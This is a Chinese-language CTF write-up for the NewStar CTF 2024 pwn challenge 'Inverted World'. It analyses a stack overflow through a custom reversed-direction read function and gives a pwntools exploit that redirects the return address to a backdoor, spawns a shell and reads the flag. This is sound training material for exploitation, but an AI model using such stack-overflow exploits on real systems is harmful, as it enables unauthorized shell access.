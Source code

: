 ```yaml
---
titleTemplate: ":title | WriteUp - NewStar CTF 2024"
---
```


# Inverted World

## 题目分析

checksec 之后发现未开启 pie，开启了 Canary.

```C
int __fastcall main(int argc, const char **argv, const char **envp)
{
  _BYTE buf[255]; // [rsp+0h] [rbp-110h] BYREF
  _BYTE v5[17]; // [rsp+FFh] [rbp-11h] BYREF

  *(_QWORD *)&v5[9] = __readfsqword(0x28u);
  init(argc, argv, envp);
  table();
  write(0, "root@AkyOI-VM:~# ", 0x12uLL);
  read(0, v5, 0x512uLL);  // 这里实际是自定义的 _read 函数，实现和 read 函数相反方向的输入
  write(1, buf, 0x100uLL);
  puts(byte_402509);
  puts("??? What's wrong with the terminal?");
  return 0;
}
```

`main` 函数的 `read` 存在栈溢出，但是这个 `read` 函数是自定义的（源码中命名函数名为 `_read` 来实现的）。

`_read` 实现的是和正常 `read` 相反方向进行输入，我们这里输入的长度 `0x512` 明显大于 255，可以写到低地址的栈帧的东西，我们劫持位于低地址的 `_read` 函数的返回地址到 backdoor 中间的部分（因为劫持到开头过不了检测）。

反向输入 `sh` 即可执行 `system("sh")` 拿到 shell.

:::info 关于 Canary
因为是反向输入的，只要不多写东西就不会修改到 Canary，自然就不用故意绕过 Canary.
:::

## EXP

```python
from pwn import*

context.log_level='debug'
context(arch='amd64', os='linux')
context.terminal=['tmux', 'splitw', '-h']

p=remote('???.???.???.???', ?????)

payload=b'a'*0x100
p.sendline(payload+p64(0x040137C)[::-1])
p.sendlineafter("root@AkyOI-VM:~#", "hs")
p.sendline("cat flag")
p.interactive()
```
